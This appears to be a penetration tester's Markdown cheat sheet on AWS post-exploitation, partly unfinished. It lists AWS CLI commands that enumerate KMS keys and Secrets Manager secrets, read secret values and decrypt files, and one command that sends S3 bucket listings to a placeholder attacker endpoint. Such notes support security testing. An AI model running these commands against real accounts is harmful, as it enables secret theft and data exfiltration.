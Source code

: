 # 04 - Post Exploitation

TODO: https://github.com/RhinoSecurityLabs/pacu

## Enumeration

### Authenticated Enumeration

```
$ aws [--endpoint-url=http://<IP>:4566] kms list-keys

$ aws [--endpoint-url=http://<IP>:4566] secretsmanager list-secrets

$ aws [--endpoint-url=http://<IP>:4566] secretsmanager get-secret-value --secret-id "<arn_ID>"
```

## Privilege Escalation

TODO: Write conditions to escalate to gain full control of the s3 bucket servers

## Credential Access and Dumping

Decrypt the file with a master key.

```
$ aws kms decrypt [--endpoint-url=http://<IP>:4566] --ciphertext-blob fileb:///path/to/file.enc --query Plaintext --output text
```

Find the key

```
$ aws kms decrypt [--endpoint-url=http://<IP>:4566] --ciphertext-blob fileb:///path/to/file.enc --query Plaintext --output text --key-id=<Key_ID> 
```

Decrypt the file with a supported encryption algorithm.

```
$ aws kms decrypt [--endpoint-url=http://<IP>:4566] --ciphertext-blob fileb:///path/to/file.enc --query Plaintext --output text --key-id=<Key_ID> --encryption-algorithm <encryption_algorithm>
```

## Data Exfiltration

TODO: Setup MinIO on a server to exflitrate s3 bucket instances and write conditions before executing this phase

```
$ aws s3 --endpoint=http[s]://<attacker_url> --no-sign-request --recursive ls s3://<s3_bucket_IP>
```

## Maintaining Access

TODO: Provide steps for creating user accounts with admin access

---
## References

- [Privilege Escalation in AWS - Part 01](https://mystic0x1.github.io/posts/AWS-Privilege-Escalation-Part-01/)

- [Privilege Escalation in AWS - Part 02](https://mystic0x1.github.io/posts/AWS-Privilege-Escalation-Part-02/)

- [Methods to Backdoor an AWS Account](https://mystic0x1.github.io/posts/methods-to-backdoor-an-aws-account/)

- [MinIO](https://min.io)

- [minio-backup-s3](https://github.com/fandoghpaas/minio-backup-s3)